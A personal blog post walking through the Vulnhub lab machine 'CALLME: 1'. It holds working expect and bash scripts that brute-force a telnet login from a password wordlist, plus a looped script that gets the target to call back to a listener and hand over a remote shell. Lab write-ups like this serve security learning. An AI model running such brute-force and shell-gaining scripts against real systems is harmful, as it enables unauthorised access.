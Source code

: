 ```yaml
---
layout: post
title:  "Vulnhub - CALLME: 1"
date:   2020-12-16 21:30:00 +1100
category: hacking
---
```


## Introduction
*Machine name: Callme  
Level: Easy  
flags: user, root  
Description: This is a Linux box with a custom remote access*

This is [CALLME: 1](https://www.vulnhub.com/entry/callme-1,615/) from Vulnhub. I did the foothold/user part of this myself, and then checked a writeup for the privesc. Which I didn't successfully run; whatever.

## Ports
1. 22/tcp   open  ssh  
2. 111/tcp  open  rpcbind  
3. 2323/tcp open  3d-nfsd  

## 2323
Entry to this box is via port 2323; connecting with telnet gets this:

{% highlight shell %}
root@kali:/opt/vulnhub/callme# telnet 192.168.1.165 2323
Trying 192.168.1.165...
Connected to 192.168.1.165.
Escape character is '^]'.
Welcome to foxrecall server
username: 
admin
Password
dunno
Wrong password for user admin
bye!
Connection closed by foreign host.
{% endhighlight %}

So we need a way to bruteforce the password for *admin*. We know it's *admin* because if we get this if we try one that doesn't exist:

>username:   
doesnotexist  
Password  
dunno  
user does not exist  

### Expect
I had never used /bin/expect before but some googling told me it was the way to go. Well, one way anyway. I had two scripts:

{% highlight shell %}
root@kali:/opt/vulnhub/callme# cat connect.sh
#!/usr/bin/expect
set timeout 20
set hostName "192.168.1.165"
set port "2323"
set userName "admin"
set password [lindex $argv 0]

spawn telnet $hostName $port

expect "Welcome to foxrecall server"
expect "username:"
send "$userName\r"
expect "Password"
send "$password\r"
expect {
    "Wrong password*" { send -- "rude_words\r\r" }
    "hello" { send -- "id\r" }
}
{% endhighlight %}

and:

{% highlight shell %}
root@kali:/opt/vulnhub/callme# cat caller.sh 
#!/bin/bash

readarray -t my_array < /usr/share/seclists/Passwords/probable-v2-top1575.txt

for line in "${my_array[@]}"; do
  ./connect.sh $line
done
{% endhighlight %}

What I did was run *caller.sh* and redirected the output to a file, which I then flicked through looking for something unusual. Yes, it's not optimal; I'm a hack. 

Anyway one entry stood out:

{% highlight shell %}
Wrong password for user admin
spawn telnet 192.168.1.165 2323
Trying 192.168.1.165...
Connected to 192.168.1.165.
Escape character is '^]'.
Welcome to foxrecall server
username: 
admin
Password
booboo
ONE THOUSAND THIRTY THREE 
You are not ready sorry...
bye!
Connection closed by foreign host.
{% endhighlight %}

So the password is *booboo* - what does the message mean?

## ONE THOUSAND THIRTY THREE 

Initially I though maybe this was a delay, like I had to wait 1.033 seconds and retry, but that didn't seem right. What did *You are not ready sorry* mean? Could it be a connection back looking for an open port? The numbers always seemed to be between about 1000 and 4000. I made a new slight change to my script:

{% highlight shell %}
root@kali:/opt/vulnhub/callme# cat booboo.sh 
#!/usr/bin/expect
set timeout 20
set hostName "192.168.1.165"
set port "2323"
set userName "admin"
set password "booboo"

spawn telnet $hostName $port

expect "Welcome to foxrecall server"
expect "username:"
send "$userName\r"
expect "Password"
send "$password\r"
expect {
    "Wrong password*" { send -- "rude_words\r\r" }
    "hello" { send -- "id\r" }
}
{% endhighlight %}

I opened a listener on port 1234, called the script from an infinite loop on the command line, sending the output to the void, and waited:

``
root@kali:/opt/vulnhub/callme# while :; do ./booboo.sh;done > /dev/null
``

After a few minutes, I got my shell. This was a CMD shell, which was running under WINE. Apart from knowing it exists, I know basically *nothing* about WINE.

Still, I got the user. See [here](https://al1enum.github.io/vulnhub/callme/index.html) for someone else's writeup of the rest. Also he had better scripts. It's all good.
